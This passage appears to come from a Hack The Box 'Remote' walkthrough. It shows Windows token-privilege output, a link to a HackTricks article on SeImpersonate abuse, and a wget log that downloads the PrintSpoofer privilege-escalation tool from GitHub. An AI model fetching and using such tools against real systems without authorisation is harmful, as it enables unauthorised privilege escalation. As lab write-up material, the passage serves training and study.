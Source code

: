 ```bash
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Users\Public\Desktop> 0
                                 [02]: fe80::43d:2e9:512f:af70
                                 [03]: dead:beef::43d:2e9:512f:af70
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
0
```
{% endraw %}

<br />
Lookup the hacktricks article on SeImpersonate abuse.

{% raw %}
```bash
https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer.html
```
{% endraw %}
<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/remote/hacktricks.png" title="Check the Hacktricks Article" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Download the PrintSpoofer executable.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/remote]
└─$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe                                                
--2025-01-27 02:29:13--  https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
Resolving github.com (github.com)... 4.237.22.38
Connecting to github.com (github.com)|4.237.22.38|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/259576481/816ce080-f39e-11ea-8fc2-8afb7b4f4821?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250126%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250126T152917Z&X-Amz-Expires=300&X-Amz-Signature=cddf995d5cbe5c4805cc681dd9273b59e1ee36d3440a4350565b202225a61369&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3DPrintSpoofer64.exe&response-content-type=application%2Foctet-stream [following]
--2025-01-27 02:29:13--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/259576481/816ce080-f39e-11ea-8fc2-8afb7b4f4821?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250126%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250126T152917Z&X-Amz-Expires=300&X-Amz-Signature=cddf995d5cbe5c4805cc681dd9273b59e1ee36d3440a4350565b202225a61369&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3DPrintSpoofer64.exe&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.110.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 27136 (26K) [application/octet-stream]
Saving to: ‘PrintSpoofer64.exe’

PrintSpoofer64.exe                                         100%[========================================================================================================================================>]  26.50K  --.-KB/s    in 0.006s  

2025-01-27 02:29:14 (4.65 MB/s) - ‘PrintSpoofer64.exe’ saved [27136/27136]
```
